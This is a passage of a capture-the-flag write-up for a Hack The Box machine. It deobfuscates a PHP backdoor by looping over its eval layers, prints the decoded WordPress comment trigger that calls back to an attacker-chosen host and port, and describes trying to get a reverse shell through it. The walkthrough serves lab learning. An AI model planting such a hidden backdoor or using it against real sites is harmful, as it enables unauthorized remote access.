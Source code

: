 Let's first create a initial decoded file from **backdoor.php**

`php backdoor.php > new1.php`

Now

```
for i in {1..100}; do php new$i.php | sed 's/eval/<?php echo /g' > new$((i+1)).php; done
```

+ It loops over 100 times. 
+ Execute current new1.php file and replace it's `eval` with `<?php echo` and 
+ save it for next file i.e new2.php, which will get executed in next iteration.

It creates 100 files and around 80 & 81 file we see a constant file size which means no more changes are being done in files and eval function is gone from script. 

![Screenshot from 2022-04-18 12-24-06](https://user-images.githubusercontent.com/79413473/163768379-c9c7f614-6549-4c34-96f9-3da855a7201e.png)

Let's read a file say **new100.php**. I Properly formatted it

```
if($comment_author_email=="help@toby.htb"&&$comment_author_url=="http://test.toby.htb/"&&substr($comment_content,0,8)=="746f6279"){
 
        $a=substr($comment_content,8)
        $host=explode(":",$a)[0]                      
        $sec=explode(":",$a)[1]
        $d="/usr/bin/wordpress_comment_validate"      // a php script
        include $d                                    // include that script
        wp_validate_4034a3($host,$sec)                // call a function which is probably inside that previous script. Sending host and port in function.
        return new WP_Error('unspecified error')

}
```

Now on based of few `if` checks like author's email and url and comment's first 8 characters it will take rest of the comment and split it on **:** delimeter and most probably in host & port format. Let's try that.

### Getting a reverse shell from wordpress comment

Let's comment on a post on wordpress blog with our payload 

![2022-04-18_12-30](https://user-images.githubusercontent.com/79413473/163769231-44ade3c6-e0b6-49f4-af58-d21220deeb96.png)

But nothing comes out and no connection received on my listener either.

![Screenshot from 2022-04-18 12-33-14](https://user-images.githubusercontent.com/79413473/163769650-4edb6fb7-3589-4657-96b6-3b89308b7ae2.png)

Let's start wireshark to see what happened, and send the request again from burp.

![2022-04-18_12-39](https://user-images.githubusercontent.com/79413473/163770385-c44efc26-f8d7-4f45-a108-78f64beb018c.png)

Request highlisghted blue shows that server is sending back connection on port **20053** instead of port we specified on comment. As we are not listening on port 20053 nothing happened. Let's do that.
